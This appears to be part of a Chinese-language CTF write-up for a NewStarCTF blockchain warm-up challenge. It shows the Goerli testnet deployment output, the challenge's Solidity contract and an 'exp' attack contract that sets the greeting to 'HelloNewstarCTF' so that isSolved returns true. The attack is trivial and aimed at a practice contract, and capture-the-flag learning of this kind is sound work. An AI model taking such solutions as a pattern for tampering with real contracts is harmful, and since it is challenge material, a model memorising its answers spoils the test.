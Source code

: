 2、向该地址发送合适数量的GoerliETH，进行合约的部署，返回交易地址

```php
input your token: v4.local.iaVylcsfINKTJ5Of6kXHOe1uGU_WHfprCM_kfHiLkmGJWGZUeOYqWp1e9DgdnCT0wS9gj_GQmV4Pw_iCUEs9ep0kIde4mMqzm9WsY3f2I0LNuc1lE4snmcwkacfUP7UD_RGs3-1BJsfWDsW8YTEMkC7pFgb3mymjSz9oxwl8sdSWRw
[+] contract address: 0x19b0a2c1335cb365696Aa660b4b8fe4c781b5E2B
[+] transaction hash: 0x1b1d06db5bfb3b4cd33dc8cba5f876a49a6fa10e80adfb11231300fb733564d3
```

3、拿到合约的源代码，审计题目要求，编写攻击合约

```php
pragma solidity 0.8.7;

contract Checkin {
    string greeting;

    constructor(string memory _greeting) public {
        greeting = _greeting;
    }

    function greet() public view returns (string memory) {
        return greeting;
    }

    function setGreeting(string memory _greeting) public {
        greeting = _greeting;
    }

    function isSolved() public view returns (bool) {
        string memory key = "HelloNewstarCTF";
        return keccak256(abi.encodePacked(key)) == keccak256(abi.encodePacked(greeting));
    }
}
contract exp{
    //首先确定被攻击的合约地址，就是题目环境中使用步骤2生成的那个合约地址。
    address transcation=0x19b0a2c1335cb365696Aa660b4b8fe4c781b5E2B;
    //将合约地址和被攻击合约的模板整合到一起
    Checkin target=Checkin(transcation);
    constructor()payable{}
    //自己定义一个攻击函数可供调用去攻击
    function hack() public returns(bool){
        bool ans=false;
        //根据被攻击合约地址的题目要求进行修改赋值
        string memory greeting="HelloNewstarCTF";
        target.setGreeting(greeting);
        //然后调用函数，检查是否满足事件要求
        ans=target.isSolved();
        return ans;
    }
}
```
